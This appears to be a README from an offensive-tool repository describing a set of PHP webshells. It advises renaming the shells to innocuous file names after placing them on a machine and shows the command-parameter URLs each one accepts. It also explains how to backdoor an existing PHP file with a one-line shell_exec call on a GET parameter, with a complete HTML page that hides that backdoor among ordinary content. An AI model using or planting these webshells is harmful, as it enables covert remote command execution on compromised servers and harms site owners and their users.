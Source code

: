 # Webshell
You should rename each of these webshell's once they have been placed onto a machine some examples are:
a.php
conf.php
include.php
.ignore.php
system.php

## guiWebShell.php
A basci gui web shell

## simpleWebShell
http://ip/simpleWebShell.php?cmd=id

## tinyWebShell.php
http://ip/simpleWebShell.php?_=id

## tiny2WebShell.php
http://ip/simpleWebShell.php?0=id

## In line shell
In a existing php file you can add 
`echo shell_exec($_GET['cmd']);`
to add a back door into the file. An example is below
```
<title>How to put PHP in HTML- Date Example</title>

</head>

<body>

<div>This is pure HTML message.</div>

<div>Next, we’ll display today’s date and day by PHP!</div>

<div>

<?php

echo 'Today’s date is <b>' . date('Y/m/d') . '</b> and it’s a <b>'.date('l').'</b> today!';
echo shell_exec($_GET['cmd']);
?>

</div>

<div>Again, this is static HTML content.</div>

</body>

</html>
```

